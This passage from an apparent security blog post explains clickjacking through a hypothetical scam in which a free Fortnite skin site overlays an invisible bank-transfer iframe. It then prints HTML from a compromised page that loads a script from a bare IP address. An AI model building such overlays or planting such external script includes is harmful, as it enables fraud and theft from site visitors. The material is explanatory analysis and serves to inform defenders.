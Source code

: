 1. Some Fortnite player, Alice, is bored and wants to get some kick out of scamming other players. They decide to use their script-kiddie skills to whip up a convincing-looking website that promises players rare skins for **free**. For this example, our victim is named Bob.
2. Alice knows that some bank does not use `X-Frame-Options` to protect their website, which means that this will be the target audience for the attack.
3. In the background, a script is executed to check if Bob is logged into the bank that the attacker is targeting. If so, an invisible iframe is loaded up prefilled with a corresponding transfer amount. The iframe is positioned in such a way that the  "Confirm Transfer" button is super-imposed on the "Download" button for each skin.
4. Bob opens the site and selects a skin. The skin is shown on a page with a big green flashing download button in the center. Bob clicks on it thinking he'll be the coolest player out of his friend group, not knowing he made a huge mistake.
5. The bank page proceeds to process the transaction while Bob ends up downloading a text file containing some bull sh*t instructions on how he can redeem the skin with a fake product code.

### The Code

So Stan, where's the code? Glad you asked.

The execution of this attack is slightly different than the previous approaches I've mentioned. In short, what the script does is hide all the contents of the legitimate version of the website and creates an iframe showing the Chinese online casino page. Now, this is quite obvious to anyone that this website has nothing to do with this casino. However, this technique could be used to superimpose a realistic-looking page acting as the website (this can be done if the owner's account for the hosting company was compromised and an attacker set up the clickjacking attack to lure people into handing over money).

When I opened the source code of the page, it was just normal looking Bootstrap templates with a couple of red flags. Other than some other weird JS being executed, I isolated the snippet of code where the clickjacking script lives:

```html
<!DOCTYPE html>
<html lang="en">
  <head>

    <title>Title Page</title><meta name="keywords" content="" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <meta http-equiv="Content-Type" content="text/html; charset=utf-8" />

    <meta name="description" content="" />
    <meta name="author" content="">

    <!-- Some 百度 Analytics Code -->
    <script>(function(){var bp=document.createElement("script");var curProtocol=window.location.protocol.split(":")[0];if(curProtocol==="https"){bp.src="https://zz.bdstatic.com/linksubmit/push.js"}else{bp.src="http://push.zhanzhang.baidu.com/push.js"}var s=document.getElementsByTagName("script")[0];s.parentNode.insertBefore(bp,s)})();</script>
    <script type="text/javascript" src="http://123.123.123.123/script.js"></script> <!-- What is this? -->
  </head>

  <body>
  <!-- Content -->
  </body>
</html>
```

